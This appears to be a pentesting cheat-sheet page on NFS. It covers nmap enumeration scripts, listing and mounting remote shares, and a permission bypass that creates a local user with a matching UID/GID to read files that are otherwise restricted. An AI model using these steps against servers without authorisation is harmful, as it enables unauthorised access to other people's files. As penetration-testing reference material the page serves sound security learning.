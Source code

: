 ```yaml
---
title: NFS (Network File System) Pentesting
description: NFS is a distributed file system protocol that allows a user on a client computer to access files over a computer network much like local storage is accessed. Default ports are 111, 2049.
tags:
    - Network
refs:
date: 2023-10-26
draft: false
---
```


## Enumeration

```sh
nmap --script=nfs-ls,nfs-statfs,nfs-showmount -p 111,2049 <target-ip>
```

<br />

## Mounting Folders

### 1. Check if there are folders avaiable to mount in remote machine.

```sh
showmount -e <target-ip>
```

By the way, If you get error "showmount: command not found", install `nfs-common`.

```sh
apt-cache search showmount
sudo apt install nfs-common
```

### 2. Mount to local folder

If we find a folder available, we can mount it to local folder.  
Create a new folder under **/mnt**.

```sh
sudo mkdir /mnt/test
```

Now mount a folder.

```sh
# -t: Type
# -o nolock: Option. 'nolock' disables file locking. It's required for older NFS servers.
sudo mount -t nfs <target-ip>:/target/dir /mnt/test -o nolock

# -o vers=2: 
sudo mount -t nfs <target-ip>:/target/dir /mnt/test -o nolock -o vers=2
```

### 3. Confirm mounting successfully

```sh
ls /mnt/test
```

### 4. Clean up the mounted folder after investigation

```sh
sudo umount /mnt/test
sudo rm -r /mnt/test
```

### ⚠️Folder Permission Bypass

```bash
ls -al /mnt/

drwx------ 2 1005 1005 4096 Jan 1 00:00 test
```

The permission of the mounted folder is affected by the server's one. If we don't have the permission, we can create a new user with the **same UID/GID** and gain access to the folder.

```bash
# 1. Create a new group with GID 1005
groupadd -g 1005 tester

# 2. Create a new user with UID & GID 1005
useradd -u 1005 -g 1005 tester

# 3. Create a new password for `evil` user
passwd tester

# 4. Switch `evil` user with the password
su tester
```

Now since we have a permission of the mounted folder, we can operate this folder.